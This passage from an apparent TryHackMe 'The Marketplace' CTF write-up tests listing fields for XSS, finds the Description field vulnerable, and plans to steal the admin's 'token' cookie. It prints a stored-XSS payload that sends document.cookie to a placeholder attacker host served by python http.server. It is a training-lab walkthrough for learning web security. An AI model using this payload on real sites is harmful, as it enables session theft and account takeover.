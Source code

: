 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a12.png)

Looks like the "Title" is not vulnerable to XSS.

BUT!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a13.png)

The "Description" is vulnerable to XSS! Also, if you see it carefully, there is a link to "Contact the listing author". Let's check that out!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a14.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a15.png)

It seems like we can send a message to the item's author! Let's test XSS again!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a16.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a17.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a18.png)

Nope, it's not vulnerable to XSS.

Hmm... What if we can capture a user's cookie? So we can login as that user?

I also notice that we can report a listing to **admin**!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a19.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a20.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a21.png)

Hmm... What if we can leverage the XSS vunlerability to capture admin's "token" cookie?? This would allow us to login as admin!

**To achieve this, I'll:**

1. host a website via python's `http.server` module:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a22.png)

2. Craft a XSS payload:

**XSS payload:**
```html
<script>document.write('<img src="http://YOUR_VPN_IP_ADDRESS/?'+document.cookie+' "/>')</script>
```

This will create an image in the listing, and capture an user's cookies.

3. Create a new listing with the XSS payload in above:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a23.png)

